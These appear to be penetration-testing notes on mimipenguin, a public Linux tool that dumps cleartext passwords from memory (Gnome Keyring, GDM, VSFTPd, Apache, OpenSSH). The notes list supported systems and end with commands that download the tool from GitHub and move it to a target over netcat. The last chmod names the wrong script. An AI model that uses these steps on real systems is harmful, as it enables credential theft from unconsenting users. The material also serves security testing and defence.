

mimipenguin
mimipenguin
(
https://raw.githubusercontent.com/huntergregal/mimipenguin/master/mimipenguin.sh)
Prerequisite:
root
on the system
◇ Unsupported Systems
*Debian 2.6.34 → NOT WORK
◇ Supported Systems
▪ Ubuntu Desktop 12.04 LTS x64 (Gnome Keyring 3.18.3-0ubuntu2)
▪ Ubuntu Desktop 14.04.1 LTS x64 (Gnome Keyring 3.10.1-1ubuntu4.3, LightDM 1.10.6-0ubuntu1)
▪ Ubuntu Desktop 16.04 LTS x64 (Gnome Keyring 3.18.3-0ubuntu2)
▪ Ubuntu Desktop 16.04.4 LTS x64 (Gnome Keyring 3.18.3-0ubuntu2, LightDM 1.18.3-0ubuntu1.1)
▪ Ubuntu 18
▪ XUbuntu Desktop 16.04 x64 (Gnome Keyring 3.18.3-0ubuntu2)
▪ Archlinux x64 Gnome 3 (Gnome Keyring 3.20)
▪ OpenSUSE Leap 42.2 x64 (Gnome Keyring 3.20)
▪ VSFTPd 3.0.3-8+b1 (Active FTP client connections)
▪ Apache2 2.4.25-3 (Active/Old HTTP BASIC AUTH Sessions) [Gcore dependency]
▪ openssh-server 1:7.3p1-1 (Active SSH connections - sudo usage)
MimiPenguin works similarly to the well-known “mimikatz” for Windows, but is designed for Linux and attempts to dump cleartext credentials from memory from the following applications:
◇ GDM password (Kali Desktop, Debian Desktop)
◇ Gnome Keyring (Ubuntu Desktop, ArchLinux Desktop)
◇ VSFTPd (Active FTP Connections)
◇ Apache2 (Active HTTP Basic Auth Sessions)
◇ OpenSSH (Active SSH Sessions - Sudo Usage)
There are two different scripts available:
• shell script (need python3, yes also this bash script)
• python script (need python3 )
An "X" denotes full support while a "~" denotes a feature with known bugs.
attacker@kali:/# wget https://raw.githubusercontent.com/huntergregal/mimipenguin/master/mimipenguin.py
target@debian:~$ nc -l -p 1234 > mimipenguin.py
attacker@kali:/# nc -w 3 <target_ip> 1234 < mimipenguin.py
target@debian:~$ chmod +x mimipenguin.py
target@debian:~$
attacker@kali:/# wget https://raw.githubusercontent.com/huntergregal/mimipenguin/master/mimipenguin.sh
target@debian:~$ nc -l -p 1234 > mimipenguin.sh
attacker@kali:/# nc -w 3 <target_ip> 1234 < mimipenguin.sh
target@debian:~$ chmod +x mimipenguin.py
target@debian:~$